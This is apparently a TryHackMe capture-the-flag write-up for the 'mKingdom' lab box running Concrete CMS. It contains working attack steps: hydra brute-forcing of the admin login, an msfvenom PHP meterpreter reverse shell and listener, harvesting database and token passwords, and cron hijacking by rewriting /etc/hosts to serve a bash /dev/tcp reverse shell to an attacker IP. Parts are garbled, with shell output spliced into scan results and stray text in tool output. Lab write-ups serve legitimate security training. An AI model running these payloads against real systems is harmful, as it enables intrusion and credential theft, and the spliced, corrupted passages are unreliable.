






<br>

This box is an easy machine on TryHackMe, which is vulnerable to Remote Code Execution (RCE) in Concrete CMS. To obtain privilege escalation we can intercept cron jobs, allowing us to hijack a writable file in order to obtain root access.

# Recon 
## Adding host file
```bash
$ echo "10.10.12.98 mkingdom.thm" | sudo tee -a /etc/hosts
```

## Debugging contents
```bash
curl -I http://mkingdom.thm:85
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 05:03:12 GMT
Server: Apache/2.4.7 (Ubuntu)
Last-Modified: Tue, 28 Nov 2023 23:50:02 GMT
ETag: "287-60b3f13c06c99"
Accept-Ranges: bytes
Content-Length: 647
Vary: Accept-Encoding
Content-Type: text/html

                                                                                            
$ curl -v http://mkingdom.thm:85 
* Host mkingdom.thm:85 was resolved.
* IPv6: (none)
* IPv4: 10.10.252.180
*   Trying 10.10.252.180:85...
* Connected to mkingdom.thm (10.10.252.180) port 85
> GET / HTTP/1.1
> Host: mkingdom.thm:85
> User-Agent: curl/8.8.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Thu, 28 Nov 2024 05:03:16 GMT
< Server: Apache/2.4.7 (Ubuntu)
< Last-Modified: Tue, 28 Nov 2023 23:50:02 GMT
< ETag: "287-60b3f13c06c99"
< Accept-Ranges: bytes
< Content-Length: 647
< Vary: Accept-Encoding
< Content-Type: text/html
< 
<!DOCTYPE html>
<html>
<head>
  <title>0H N0! PWN3D 4G4IN</title>
  <style>
    body {
      background-color: black;
      display: flex;
      justify-content: center;
      align-items: center;
      height: 100vh;
      margin: 0;
      padding: 0;
    }

    .content {
      text-align: center;
    }

    .text {
      color: white;
      font-size: 24px;
      margin-top: 20px;
    }
  </style>
</head>
<body>
  <div class="content">
    
    <p class="text">Bwa, ha, ha, pathetic, you'll never learn!</p>
  </div>
</body>
</html>
* Connection #0 to host mkingdom.thm left intact

```

## Service Detection
```bash
$ nmap -sC -sV -Pn -p$(nmap --min-rate=1000 -T4 -p- 10.10.252.180 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') 10.10.252.180 -oN tcp.txt 

Starting Nmap 7.94SVN ( https://nmap.org )
Nmap scan report for 10.10.252.180
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0H N0! PWN3D 4G4IN
|_http-server-header: Apache/2.4.7 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
```
## Directory 
> Hidden contents
```bash
$ feroxbuster -u http://mkingdom.thm:85/ -w /usr/share/seclists/Discovery/Web-Content/big.txt --scan-dir-listings -o ferox.txt 
 
 __  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://mkingdom.thm:85/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/big.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ ferox.txt
 📂  Scan Dir Listings     │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────

200 GET http://mkingdom.thm:85/img1.jpg
200 GET http://mkingdom.thm:85/
200 GET http://mkingdom.thm:85/app/castle/robots.txt
200 GET http://mkingdom.thm:85/app/castle/concrete/composer.json
200 GET http://mkingdom.thm:85/app/castle/concrete/dispatcher.php

301 GET app => http://mkingdom.thm:85/app/
301 GET app/castle => http://mkingdom.thm:85/app/castle/
301 GET app/castle/application => http://mkingdom.thm:85/app/castle/application/
301 GET app/castle/concrete => http://mkingdom.thm:85/app/castle/concrete/
301 GET app/castle/application/authentication => http://mkingdom.thm:85/app/castle/application/authentication/
301 GET app/castle/application/attributes => http://mkingdom.thm:85/app/castle/application/attributes/
301 GET app/castle/application/blocks => http://mkingdom.thm:85/app/castle/application/blocks/
301 GET app/castle/concrete/authentication => http://mkingdom.thm:85/app/castle/concrete/authentication/
301 GET app/castle/application/config => http://mkingdom.thm:85/app/castle/application/config/
301 GET app/castle/application/contrmario@mkingdom:~$ ls
ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
mario@mkingdom:~$ cat user.txt 
cat user.txt 
cat: user.txt: Permission denied
mario@mkingdom:~$ 
ollers => http://mkingdom.thm:85/app/castle/application/controllers/
301 GET app/castle/concrete/bin => http://mkingdom.thm:85/app/castle/concrete/bin/
301 GET app/castle/concrete/blocks => http://mkingdom.thm:85/app/castle/concrete/blocks/
301 GET app/castle/concrete/attributes => http://mkingdom.thm:85/app/castle/concrete/attributes/
301 GET app/castle/application/elements => http://mkingdom.thm:85/app/castle/application/elements/
301 GET app/castle/concrete/config => http://mkingdom.thm:85/app/castle/concrete/config/
301 GET app/castle/concrete/controllers => http://mkingdom.thm:85/app/castle/concrete/controllers/
301 GET app/castle/concrete/css => http://mkingdom.thm:85/app/castle/concrete/css/
301 GET app/castle/concrete/elements => http://mkingdom.thm:85/app/castle/concrete/elements/
301 GET app/castle/application/jobs => http://mkingdom.thm:85/app/castle/application/jobs/
301 GET app/castle/application/languages => http://mkingdom.thm:85/app/castle/application/languages/
301 GET app/castle/application/mail => http://mkingdom.thm:85/app/castle/application/mail/
301 GET app/castle/concrete/images => http://mkingdom.thm:85/app/castle/concrete/images/
301 GET app/castle/packages => http://mkingdom.thm:85/app/castle/packages/
301 GET app/castle/concrete/jobs => http://mkingdom.thm:85/app/castle/concrete/jobs/
301 GET app/castle/concrete/js => http://mkingdom.thm:85/app/castle/concrete/js/
301 GET app/castle/concrete/mail => http://mkingdom.thm:85/app/castle/concrete/mail/
301 GET app/castle/application/page_templates => http://mkingdom.thm:85/app/castle/application/page_templates/
301 GET app/castle/application/single_pages => http://mkingdom.thm:85/app/castle/application/single_pages/
301 GET app/castle/updates => http://mkingdom.thm:85/app/castle/updates/
301 GET app/castle/application/src => http://mkingdom.thm:85/app/castle/application/src/
301 GET app/castle/application/themes => http://mkingdom.thm:85/app/castle/application/themes/
301 GET app/castle/application/tools => http://mkingdom.thm:85/app/castle/application/tools/
301 GET app/castle/concrete/routes => http://mkingdom.thm:85/app/castle/concrete/routes/
301 GET app/castle/application/views => http://mkingdom.thm:85/app/castle/application/views/
301 GET app/castle/concrete/single_pages => http://mkingdom.thm:85/app/castle/concrete/single_pages/
301 GET app/castle/concrete/src => http://mkingdom.thm:85/app/castle/concrete/src/
301 GET app/castle/concrete/themes => http://mkingdom.thm:85/app/castle/concrete/themes/
301 GET app/castle/concrete/tools => http://mkingdom.thm:85/app/castle/concrete/tools/
301 GET app/castle/concrete/vendor => http://mkingdom.thm:85/app/castle/concrete/vendor/
301 GET app/castle/concrete/views => http://mkingdom.thm:85/app/castle/concrete/views/
```

## Vulnerability Identication



## Bruteforcing admin password
```bash
$ hydra -l admin -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt mkingdom.thm -s 85  http-post-form "/app/castle/index.php/login:username=^USER^&password=^PASS^:Invalid username or password"  -V

[85][http-post-form] host: mkingdom.thm   login: admin   password: abc123
[85][http-post-form] host: mkingdom.thm   login: admin   password: 1234567
[85][http-post-form] host: mkingdom.thm   login: admin   password: baseball
[85][http-post-form] host: mkingdom.thm   login: admin   password: dragon
[85][http-post-form] host: mkingdom.thm   login: admin   password: qwerty
[85][http-post-form] host: mkingdom.thm   login: admin   password: 1234
[85][http-post-form] host: mkingdom.thm   login: admin   password: password
[85][http-post-form] host: mkingdom.thm   login: admin   password: 12345678
[85][http-post-form] host: mkingdom.thm   login: admin   password: 111111
[85][http-post-form] host: mkingdom.thm   login: admin   password: 123123
[85][http-post-form] host: mkingdom.thm   login: admin   password: 123456
[85][http-post-form] host: mkingdom.thm   login: admin   password: 123456789
[85][http-post-form] host: mkingdom.thm   login: admin   password: football
[85][http-post-form] host: mkingdom.thm   login: admin   password: monkey
[85][http-post-form] host: mkingdom.thm   login: admin   password: letmein
1 of 1 target successfully completed, 16 valid passwords found
```

## Concrete dashboard


## Uploading Reverse shell
>  [H1 report](https://hackerone.com/reports/768322)


## Generating reverse shell
```bash
$  msfvenom -p php/meterpreter_reverse_tcp LHOST="10.23.42.147" LPORT=4444 -f raw > shell.php 
```
## Running command
```bash
$ curl -s http://mkingdom.thm:85/app/castle/application/files/7317/3277/1840/shell.php 
``` 
## MSF listener
```bash
$ msfconsole -q -x "use exploit/multi/handler; set payload php/meterpreter_reverse_tcp; set LHOST=10.23.42.147; set LPORT=4444; run -j"
```
## Stable shell 
```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
$ export TERM=linux
```
## Target user
```bash
www-data@mkingdom:/var/www/html/app$ cat /etc/passwd | grep 100

mario:x:1001:1001:,,,:/home/mario:/bin/bash
toad:x:1002:1002:,,,:/home/toad:/bin/bash
```

## Lateral movement
```bash
www-data@mkingdom:/var/www/html/app/castle$ grep -rn --include="*.php" "password" /var/www/html/app/castle >> /tmp/result.txt
```
```bash
www-data@mkingdom:/tmp$ cat result.txt | grep 'password' | head -10 
cat result.txt | grep 'password' | head -10 
/var/www/html/app/castle/application/files/cache/expensive/0fea6a13c52b4d47/25368f24b045ca84/38a865804f8fdcb6/57cd99682e939275/2ddb27c5cdf0b672/745d4c64665be841/f7dd88241c1b929d/74384b3d8c877990.php:2:/* Cachekey: cache/stash_default/doctrine/[concrete\core\entity\file\file$fpassword@[annot]][1]/ */
/var/www/html/app/castle/application/files/cache/expensive/0fea6a13c52b4d47/25368f24b045ca84/38a865804f8fdcb6/57cd99682e939275/2ddb27c5cdf0b672/745d4c64665be841/b96fc861f58ea81e/cf454e8bfed590e9.php:2:/* Cachekey: cache/stash_default/doctrine/[concrete\core\entity\user\user$upassword@[annot]][1]/ */
/var/www/html/app/castle/application/files/cache/expensive/0fea6a13c52b4d47/25368f24b045ca84/38a865804f8fdcb6/57cd99682e939275/2ddb27c5cdf0b672/745d4c64665be841/b6386de8d9df7243/3bb63c643f5d0347.php:2:/* Cachekey: cache/stash_default/doctrine/[concrete\core\entity\user\user$ulastpasswordchange@[annot]][1]/ */
/var/www/html/app/castle/application/files/cache/expensive/0fea6a13c52b4d47/25368f24b045ca84/38a865804f8fdcb6/57cd99682e939275/2ddb27c5cdf0b672/745d4c64665be841/cb6670af640f5593/531ec0ef35f9b3b0.php:2:/* Cachekey: cache/stash_default/doctrine/[concrete\core\entity\user\user$uispasswordreset@[annot]][1]/ */
/var/www/html/app/castle/application/config/database.php:11:            'password' => 'toadisthebest',
/var/www/html/app/castle/concrete/controllers/single_page/download_file.php:40:                // if file password is blank, download
/var/www/html/app/castle/concrete/controllers/single_page/download_file.php:94:    public function submit_password($fID = 0)
/var/www/html/app/castle/concrete/controllers/single_page/download_file.php:102:            if ($f->getPassword() == $this->post('password')) 
```
## User toad
```bash
toad@mkingdom:~$ cat smb.txt | head -5
cat smb.txt | head -5

Save them all Mario!
...
...
````
## Checking env variables
```bash
toad@mkingdom:~$ env 
env 
XDG_SESSION_ID=c2
SHELL=/bin/bash
TERM=linux
USER=toad
...
...
PWD_token=aWthVGVOVEFOdEVTCg== # interesting token
MAIL=/var/mail/toad
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
QT_QPA_PLATFORMTHEME=appmenu-qt5
PWD=/home/toad
LANG=en_US.UTF-8
SHLVL=1
HOME=/home/toad
LOGNAME=toad
LESSOPEN=| /usr/bin/lesspipe %s
XDG_RUNTIME_DIR=/run/user/1002
LESSCLOSE=/usr/bin/lesspipe %s %s
_=/usr/bin/env
OLDPWD=/home/toad/.config
```
## User mario
```bash
$ echo "aWthVGVOVEFOdEVTCg==" | base64 -d 
ikaTeNTANtES
```
```bash
mario@mkingdom:~$ ls

Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
mario@mkingdom:~$ cat user.txt 
cat user.txt 
cat: user.txt: Permission denied

mario@mkingdom:~$ ls -al user.txt 

-rw-r--r--  1 root  root    38 Nov 27  2023 user.txt
```
# Post Enumeration

## Network Information 

```bash
# local ip
link-local 169.254.0.0
eth0      Link encap:Ethernet  HWaddr 02:5e:a1:26:14:a9  
          inet addr:10.10.12.98  Bcast:10.10.255.255  Mask:255.255.0.0
          inet6 addr: fe80::5e:a1ff:fe26:14a9/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
          RX packets:2395 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2136 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:1119616 (1.1 MB)  TX bytes:1559850 (1.5 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:322 errors:0 dropped:0 overruns:0 frame:0
          TX packets:322 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:29945 (29.9 KB)  TX bytes:29945 (29.9 KB)

# dnserver 
mkingdom.thm
127.0.0.1	localhost
127.0.1.1	mkingdom.thm
127.0.0.1	backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

nameserver 10.0.0.2
search eu-west-1.compute.internal
thm

# ports open 
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::85                   :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
 
# user info
uid=1001(mario) gid=1001(mario) groups=1001(mario)

# sudoers
Matching Defaults entries for mario on mkingdom:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, pwfeedback

User mario may run the following commands on mkingdom:
    (ALL) /usr/bin/id


# Users with console
mario:x:1001:1001:,,,:/home/mario:/bin/bash
root:x:0:0:root:/root:/bin/bash
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/sh
toad:x:1002:1002:,,,:/home/toad:/bin/bash
```


# Possible privilege 
## 1st Privilege vector
> 
```bash
mario@mkingdom:~$ sudo -l 
sudo -l 
[sudo] password for mario: ikaTeNTANtES
            
Matching Defaults entries for mario on mkingdom:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    pwfeedback

User mario may run the following commands on mkingdom:
    (ALL) /usr/bin/id
```
## 2st Privilege vector 
> cat SUID bit set

## 3rd Privilege vector
```bash
mario@mkingdom:/var/www/html/app/castle/application$ cat counter.sh
cat counter.sh
#!/bin/bash
echo "There are $(ls -laR /var/www/html/app/castle/ | wc -l) folder and files in TheCastleApp in - - - - > $(date)."
mario@mkingdom:/var/www/html/app/castle/application$ 
```

## User Flag
```bash
mario@mkingdom:~$ cat user.txt 

cat: user.txt: Permission denied

mario@mkingdom:~$ strings user.txt 

thm{030a769febb1b3291da1375234b84283}
```

## Path Manipulation 
> 1st possible privilege 
```bash
mario@mkingdom:~$ sudo id
sudo id
[sudo] password for mario: ikaTeNTANtES
            
uid=0(root) gid=0(root) groups=0(root)
```
```bash
# testing path manipulation
mario@mkingdom:~$  echo -e "#!/bin/bash\n/bin/bash -p" > /tmp/id
mario@mkingdom:~$  chmod +x /tmp/id
mario@mkingdom:~$  export PATH=/tmp:$PATH
mario@mkingdom:/tmp$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
mario@mkingdom:~$  sudo id
 
```
## SUID cat 
> 2nd possible privilege
```bash
toad@mkingdom:~$ LFILE=/etc/shadow 
LFILE=/etc/shadow 

toad@mkingdom:~$ sudo cat "$LFILE"
sudo cat "$LFILE"
[sudo] password for toad: toadisthebest
             
toad is not in the sudoers file.  This incident will be reported.

# just a rabbit hole again but at least we try :) 
```

## Spying crons jobs
> 3rd possible privilege
```bash
$  wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32
```
```bash
mario@mkingdom:~$ ls
ls
Desktop    Downloads   Music     pspy32  Templates  Videos
Documents  linpeas.sh  Pictures  Public  user.txt

mario@mkingdom:~$ ls -al pspy32

-rwxrwxr-x 1 mario mario 2940928 Jan 17  2023 pspy32
```
```bash
mario@mkingdom:~$ ./pspy32
./pspy32
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░ikaTeNTANtES
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
...
...

CMD: UID=0     PID=26202  | bash 
CMD: UID=0     PID=26201  | curl mkingdom.thm:85/app/castle/application/counter.sh 
CMD: UID=0     PID=26200  | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log  

```

## DNS hijacking
```bash
mario@mkingdom:~$ cat /etc/hosts

127.0.0.1	localhost
127.0.1.1	mkingdom.thm
127.0.0.1	backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
## Overwriting hosts file
```bash
mario@mkingdom:~$ ls -al /etc/hosts
ls -al /etc/hosts
-rw-rw-r-- 1 root mario 342 Jan 26  2024 /etc/hosts

# overwrite the target host IP to our VPN IP and save to tmp directory 
mario@mkingdom:~$ cat /etc/hosts | sed 's/127\.0\.1\.1\tmkingdom\.thm/10\.23\.42\.147\t\tmkingdom.thm/g' > /tmp/hosts.bak

# then move hosts.bak to /etc/hosts  
mario@mkingdom:/tmp$ cat hosts.bak > /etc/hosts	

# now this is our VPN ip, overwrite to target machine then lets move to the next step
mario@mkingdom:/tmp$ cat /etc/hosts
cat /etc/hosts
127.0.0.1	localhost
10.23.42.147		mkingdom.thm
127.0.0.1	backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
## Create a similar folder 
> kali machine
```bash
$ mkdir -p app/castle/application     
$ cd /app/castle/application
$ touch couter.sh
$ ls                        
counter.sh
```
## Create a revere shell
```bash
$ cat counter.sh                                    
#!/bin/bash 
bash -i >& /dev/tcp/10.8.98.181/9001 0>&1
```


## Root flag
```bash
root@mkingdom:~# strings root.txt
strings root.txt
thm{e8b2f52d88b9930503cc16ef48775df0}
```
